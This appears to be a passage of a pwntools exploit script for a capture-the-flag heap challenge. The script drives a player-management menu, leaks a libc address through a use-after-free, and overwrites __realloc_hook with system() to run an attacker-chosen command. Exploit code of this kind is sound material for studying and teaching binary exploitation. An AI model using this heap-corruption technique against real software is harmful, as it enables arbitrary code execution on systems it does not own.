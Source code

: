 ```python
    return r

def show_player(r: process):
    r.sendlineafter("enter your choice:", b"2")
    r.recvuntil("Name:")
    name   = r.recvuntil("- Pwn:")
    pwn    = r.recvuntil("- Crypto:")
    crypto = r.recvuntil("- Web:")
    web    = r.recvuntil("- Stegoguess:")
    steg   = r.recvuntil("-===")
    return (
        name, pwn, crypto, web, steg
    )

def select_player(r: process, index):
    r.sendlineafter("enter your choice:", b"3")
    r.sendlineafter("like to select:", str(index).encode())

def create_player(r: process, name, pwn_score, crypto_score, web_score, guess_score):
    r.sendlineafter("enter your choice:", b"4")
    r.sendlineafter("player name:", name)
    r.sendlineafter("skillz [1-999]:", str(pwn_score).encode())
    r.sendlineafter("skillz [1-999]:", str(crypto_score).encode())
    r.sendlineafter("skillz [1-999]:", str(web_score).encode())
    r.sendlineafter("skillz [1-999]:", str(guess_score).encode())

def remove_player(r: process, index):
    r.sendlineafter("enter your choice:", b"5")
    r.sendlineafter("would like to remove:", str(index).encode())

def remove_all_players(r: process):
    for x in range(10):
        remove_player(r, x)

def set_name_player(r: process, name):
    r.sendlineafter("enter your choice:", b"6")
    r.sendlineafter("enter your choice:", b"1")
    r.sendlineafter("selected player:", name)
    log.info(r.recvuntil("enter your choice:"))
    r.sendline(b"6")

def leak_libc(r: process):
    create_player(r, b"a"*0x80, 0, 0, 0, 0)
    create_player(r, b"a"*0x80, 0, 0, 0, 0)
    select_player(r, 0)
    remove_player(r, 0)
    return int.from_bytes(show_player(r)[0][1:7], "little") - 0x399b58

def write_realloc_hook(r: process, libc_address):
    create_player(r, b"a"*80, 0, 0, 0, 0)
    create_player(r, b"a"*80, 0, 0, 0, 0)
    create_player(r, b"a"*80, 0, 0, 0, 0)
    select_player(r, 0)
    remove_player(r, 0)
    remove_player(r, 1)
    realloc_hook_address = (libc_address + 0x399ae8).to_bytes(6, "little")
    create_player(r, b"a"*0x10 + realloc_hook_address, 0, 0, 0, 0)
    system = (libc_address + 0x3f480).to_bytes(6, "little")
    set_name_player(r, system)

def trigger_realloc_hook(r: process, command):
    create_player(r, command, 0, 0, 0, 0)
    select_player(r, 0)
```